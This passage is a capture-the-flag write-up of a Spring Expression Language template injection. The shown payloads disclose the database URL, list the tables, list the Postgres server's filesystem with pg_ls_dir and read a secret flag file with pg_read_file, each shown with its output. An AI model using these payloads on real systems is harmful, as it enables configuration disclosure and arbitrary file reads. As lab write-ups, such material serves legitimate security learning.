 DB config disclosure:

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@environment.getProperty("spring.datasource.url")}}'
jdbc:postgresql://postgres:5432/coty_db
```

List schema & tables:

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@jdbcTemplate.queryForList("select table_name from information_schema.tables where table_schema=$$public$$ order by 1",T(java.lang.String)).toString()}}'
[cats, ratings]
```

- There is no table/field “flag”.
That’s why at first I said this kind of **SSTI** hides the flag too well.

Lateral read via PostgreSQL system functions:  
Once I can run **SQL**, that mean I wont need to touch the web tier and pivot into the DB. Postgres will let me **list and read files on the DB server’s filesystem**.

List root FS from Postgres:

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@jdbcTemplate.queryForList("select * from pg_ls_dir($$/$$) order by 1",T(java.lang.String)).toString()}}'
[4546ab28d463c0d2-secret.txt, bin, boot, dev, docker-entrypoint-initdb.d, .dockerenv, etc, home, lib, lib64, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var]
```

Read files with `pg_read_file`:

[**pg_read_file**](https://pgpedia.info/p/pg_read_file.html) is a built-in Postgres function that returns the contents of a file **on the DB server’s filesystem.**

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@jdbcTemplate.queryForObject("select pg_read_file($$/4546ab28d463c0d2-secret.txt$$)", T(java.lang.String))}}'
DDC{spR1N9_3xpr3S1s0N_lan9UA93_1S_P0W3rFUL}
```
